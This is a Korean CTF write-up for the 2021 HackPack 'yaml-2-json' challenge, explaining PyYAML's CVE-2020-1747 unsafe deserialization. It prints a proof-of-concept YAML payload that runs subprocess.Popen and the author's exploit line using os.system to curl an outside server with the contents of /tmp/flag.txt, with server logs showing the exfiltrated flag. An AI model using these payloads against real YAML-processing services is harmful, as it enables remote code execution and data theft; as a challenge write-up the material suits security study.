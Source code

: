 ```yaml
---
title: "[2021 HackPack CTF] Yaml-2-Json writeup"
categories:
  - CTF
author_profile: true
---
```


**2021 hackpack ctf - yaml-2-json writeup**

- PyYaml 취약점 `CVE-2020-1747`

---

# `page view`

![image](https://user-images.githubusercontent.com/44183111/115112242-95756200-9fbf-11eb-8cae-163d382c7f4e.png)

- 해당 페이지는 `yaml` 문법을 `json` 으로 변환하는 기능을 한다.
- `untrusted input`에 대한 검증을 하는가가 핵심 분석 포인트

---

# `CVE-2020-1747`

 A vulnerability was discovered in the `PyYAML` library in versions before `5.3.1`, where it is susceptible to arbitrary code execution when it processes untrusted YAML files through the full_load method or with the FullLoader loader. Applications that use the library to process untrusted input may be vulnerable to this flaw. An attacker could use this flaw to execute arbitrary code on the system by abusing the python/object/new constructor.

---

# `proof of concept`

- https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1

```python
# pyyaml==5.3 required. Vulnerability has been fixed in 5.3.1
# More: ret2libc's report in https://github.com/yaml/pyyaml/pull/386
# Explanation: https://2130706433.net/blog/pyyaml/
from yaml import *

with open('payload.yaml','rb') as f:
  content = f.read()

data = load(content, Loader=FullLoader) # Using vulnerable FullLoader

```

```yaml
# The `extend` function is overriden to run `yaml.unsafe_load` with 
# custom `listitems` argument, in this case a simple curl request

- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["curl", "http://127.0.0.1/rce"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

---

# `exploit`

- 해당 취약점을 이용하여 `Remote Code Execution` 을 통해 플래그를 얻어낼 것이다.
- 우선, 임의의 서버에서 `python3 http.server` 로 리퀘스트를 받을 수 있도록 한다.

``` bash
python3 -m http.server 3000
```

<br/>

- `exploit` 코드는 아래와 같다.

``` yaml
"parkmin": !!python/object/apply:os.system ["curl http://myserver.com:3000/?`cat /tmp/flag.txt`"]
```

<br/>

- 서버에서 확인해보면 플래그를 확인할 수 있다.

``` bash
152.14.92.89 - - [16/Apr/2021 18:06:26] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:33] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:47] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:07:07] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
```

<br/>

`flag{Py_PyYaml_Yaml_Py}`

---
